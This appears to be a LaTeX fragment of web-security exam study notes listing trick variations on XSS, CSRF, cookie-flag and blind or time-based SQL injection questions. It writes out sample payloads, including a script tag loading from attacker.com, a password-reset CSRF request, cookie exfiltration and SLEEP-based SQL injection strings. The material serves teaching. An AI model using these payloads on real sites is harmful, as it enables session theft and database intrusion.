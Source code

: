 \documentclass[12pt, a4paper]{article}
\begin{document}
\begin{trapbox}
\begin{itemize}
    \item \textbf{Variation 1 (Attack-class identification with T/F origin statements):} Instead of constructing the attack, the exam shows a payload (e.g. \texttt{<script src="https://attacker.com/payload.js"></script>} in a stored post) and asks to judge statements: the script runs with the origin of the LOADING page (e.g. fakebook.com), not the origin hosting the file; SOP does not block fetching the file; cookie-stealing via a stored post is STORED XSS, not DOM-based. Trap: confusing the script's hosting origin with its execution origin, and mislabeling stored vs DOM-based.
    \item \textbf{Variation 2 (CSRF disguised as XSS):} A payload like \texttt{<script src="https://fakebook.com/resetPassword?password=42"></script>} uses a script tag but loads no real JS -- it only makes the victim's browser issue the authenticated GET with cookies attached. The correct classification is CSRF. The algorithm adapts by checking whether any attacker JavaScript actually executes in the victim origin. Trap: answering ``XSS'' because of the \texttt{<script>} tag.
    \item \textbf{Variation 3 (Cookie/transport flag flips):} The same session-token-theft goal is re-asked under different flags: HTTP + HttpOnly=true forces a pure network-sniffing answer (read the login response on the wire; JS cannot help); HTTPS + HttpOnly=false forces a reflected/stored XSS with \texttt{document.cookie} exfiltration; HTTPS + HttpOnly=true forces action-forging XSS instead of token theft. Traps: proposing \texttt{document.cookie} when HttpOnly=true, or proposing wire sniffing when traffic is HTTPS and the attacker is only a network attacker.
    \item \textbf{Variation 4 (Blind and time-based SQLi):} After the always-true condition (\texttt{' OR 1=1 -- }: \texttt{1=1} is a condition that is always true, so every row matches) and row-count boolean variants, the output is hidden (``Ticket count not available'') and a timing channel is required: \texttt{x' AND customerName='Bob' AND SLEEP(10)=1 -- }, inferring the boolean from response delay. The algorithm adapts by replacing output-observation with timing-observation, and requires explicitly stating the short-circuit assumption that SLEEP runs only when the preceding AND terms are true. Trap: forgetting the assumption or leaving the string literal unterminated.
\end{itemize}
\end{trapbox}
\end{document}
